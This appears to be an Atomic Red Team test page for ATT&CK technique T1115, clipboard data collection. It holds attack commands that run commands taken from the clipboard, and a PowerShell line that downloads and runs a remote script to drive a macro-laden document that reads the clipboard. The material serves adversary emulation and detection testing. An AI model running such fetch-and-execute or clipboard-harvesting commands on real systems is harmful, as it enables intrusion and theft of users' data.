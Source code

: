 # T1115 - Clipboard Data
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1115)
<blockquote>Adversaries may collect data stored in the clipboard from users copying information within or between applications. 

In Windows, Applications can access clipboard data by using the Windows API.(Citation: MSDN Clipboard) OSX provides a native command, <code>pbpaste</code>, to grab clipboard contents.(Citation: Operating with EmPyre)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Utilize Clipboard to store or execute commands from](#atomic-test-1---utilize-clipboard-to-store-or-execute-commands-from)

- [Atomic Test #2 - Execute Commands from Clipboard using PowerShell](#atomic-test-2---execute-commands-from-clipboard-using-powershell)

- [Atomic Test #3 - Execute commands from clipboard](#atomic-test-3---execute-commands-from-clipboard)

- [Atomic Test #4 - Collect Clipboard Data via VBA](#atomic-test-4---collect-clipboard-data-via-vba)


<br/>

## Atomic Test #1 - Utilize Clipboard to store or execute commands from
Add data to clipboard to copy off or execute commands from.

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`! 


```cmd
dir | clip
echo "T1115" > %temp%\T1115.txt
clip < %temp%\T1115.txt
```

#### Cleanup Commands:
```cmd
del %temp%\T1115.txt >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Execute Commands from Clipboard using PowerShell
Utilize PowerShell to echo a command to clipboard and execute it

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
echo Get-Process | clip
Get-Clipboard | iex
```






<br/>
<br/>

## Atomic Test #3 - Execute commands from clipboard
Echo a command to clipboard and execute it

**Supported Platforms:** macOS





#### Attack Commands: Run with `bash`! 


```bash
echo ifconfig | pbcopy
$(pbpaste)
```






<br/>
<br/>

## Atomic Test #4 - Collect Clipboard Data via VBA
This module copies the data stored in the user's clipboard and writes it to a file, $env:TEMP\atomic_T1115_clipboard_data.txt

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| ms_product | Maldoc application Word | String | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Set-Clipboard -value "Atomic T1115 Test, grab data from clipboard via VBA"
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1115\src\T1115-macrocode.txt" -officeProduct "Word" -sub "GetClipboard"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\atomic_T1115_clipboard_data.txt" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 } 
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
